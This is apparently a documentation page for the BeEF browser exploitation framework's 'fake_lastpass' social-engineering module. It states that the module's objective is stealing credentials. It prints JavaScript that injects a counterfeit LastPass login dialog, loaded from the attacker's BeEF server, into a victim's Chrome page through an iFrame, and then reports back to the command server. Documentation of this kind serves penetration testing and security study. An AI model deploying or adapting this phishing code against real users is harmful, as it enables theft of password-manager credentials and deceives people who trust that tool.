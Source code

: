 ## Summary

* **Objective**: Steal credentials via fake LastPass popup
* **Authors**: xntrik, gcattani
* **Browsers**: Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/fake_lastpass)

## Internal Working

This module displays a fake LastPass user dialog via iFrame to steal credentials. The pages are hosted on the beef server.

```js
if (beef.browser.isC()) {
    beef.dom.createIframe('custom', {'src':beef.net.httpproto+'://'+beef.net.host+':'+beef.net.port+'/lp/index.html','id':'LPIFRAME'}, {'width':'294px','height':'352px','position':'fixed','right':'5px','top':'0px','z-index':beef.dom.getHighestZindex()+1,'border':'1px solid white','overflow':'hidden'});
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result=Chrome IFrame Created .. awaiting messages');
```


## Feedback

